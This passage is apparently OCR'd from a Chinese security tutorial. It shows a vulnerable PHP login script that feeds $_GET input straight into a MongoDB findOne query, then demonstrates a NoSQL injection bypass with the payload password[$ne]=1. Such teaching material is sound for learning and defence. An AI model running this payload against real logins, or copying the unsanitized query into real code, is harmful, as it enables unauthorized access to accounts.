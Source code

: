 ### **玩转MongoDB驱动**

假设有一个搭建好的Apache+PHP+MongoDB的web服务器和一个有漏洞的PHP脚本。

这个脚本的主要片段如下：

$q = array(“name” => $_GET['login'], “password” => $_ GET['password']);

$cursor = $collection->findOne($q);

当数据被接收时，该脚本向MongoDB数据库发出请求。如果输入的用户密码正确，那么它会接收，并输出用户的数据。看起来如下：

`echo 'Name: ' . $cursor['name'];`

`echo 'Password: ' . $cursor['password'];`

假设已经发送了以下参数（True）：

```cobol
?login=admin&password=pa77w0rd
```

那么对数据库的请求将如下所示：

```csharp
db.items.findOne({"name" :"admin", "password" : "pa77w0rd"})
```

由于数据库包含密码为pa77w0rd的用户管理员，所以此时数据库响应为True；如果使用其他名称或密码，那么响应将不会返回（False）。

除了语法的差异，MongoDB和其他数据库大致相同。因此，admin账户的信息需要隐藏起来，我们将输出信息中关于admin的数据筛选掉：

```php
db.items.find({"name" :{$ne : "admin"}})
```

我想你已经有了如何欺骗这个登录验证的想法。我们从理论到实践。首先创建一个请求，这个请求将符合以下条件：密码不是1，用户是admin。

```php
db.items.findOne({"name" :"admin", "password" : {$ne : "1"}})
```

有关上述帐户的信息作为回应：

`{`

`"_id" : ObjectId("4fda5559e5afdc4e22000000"), "name" : "admin",`

`"password" : "pa77w0rd"`

`}`

在PHP中将如下所示：

```cobol
$q = array("name" => "admin", "password" => array("\$ne" => "1"));
```

只需要将密码变量声明为一个数组：

```cobol
?login=admin&password[$ne]=1
```
